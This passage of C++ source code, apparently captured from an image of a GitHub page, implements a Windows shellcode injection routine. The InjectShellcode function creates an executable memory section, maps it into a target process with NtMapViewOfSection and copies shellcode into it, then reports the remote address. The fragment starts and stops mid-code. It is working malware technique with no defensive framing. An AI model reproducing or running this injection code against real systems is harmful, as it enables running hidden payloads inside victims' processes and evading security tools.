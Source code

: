 ```cpp 
    {
        std::cout << "create section failed" << std::endl;
        return NULL;
    }

    CloseHandle(sectionHandle);

    delete[] processImage;
    return (PVOID)processEntry;
}

PVOID InjectShellcode(HOST* hostProcess, SHELLCODE* s)
{
    LARGE_INTEGER sectionSize = { s->shellcodeSize };
    HANDLE sectionHandle = NULL;
    PVOID localSectionAddress = NULL, remoteSectionAddress = NULL;

    // create a read write execute memory region in the local process
    if (fNtCreateSection(
        &sectionHandle, 
        SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, 
        NULL,
        (PLARGE_INTEGER)&sectionSize, 
        PAGE_EXECUTE_READWRITE, 
        SEC_COMMIT, 
        NULL) != STATUS_SUCCESS)
    {
        std::cout << "[x]Create section failed\n";
        return NULL;
    }

    // create a view of the memory section in the local process
    if (fNtMapViewOfSection(
        sectionHandle, 
        GetCurrentProcess(), 
        &localSectionAddress, 
        NULL, NULL, NULL,
        &s->shellcodeSize, 
        2, NULL, 
        PAGE_READWRITE) != STATUS_SUCCESS)
    {
        std::cout << "[x]Create map failed\n";
        return NULL;
    }

    // create a map view of the section in the target process
    if (fNtMapViewOfSection(
        sectionHandle, 
        hostProcess->processHandle, 
        &remoteSectionAddress, 
        NULL, NULL, NULL,
        &s->shellcodeSize, 
        2, NULL, 
        PAGE_EXECUTE_READ) != STATUS_SUCCESS)
    {
        std::cout << "[x]Create map failed\n";
        return NULL;
    }

    memcpy(localSectionAddress, s->shellcode, s->shellcodeSize);
    std::cout << "[!]Shellcode injected to 0x" << std::hex << (DWORD)remoteSectionAddress << std::endl;

```
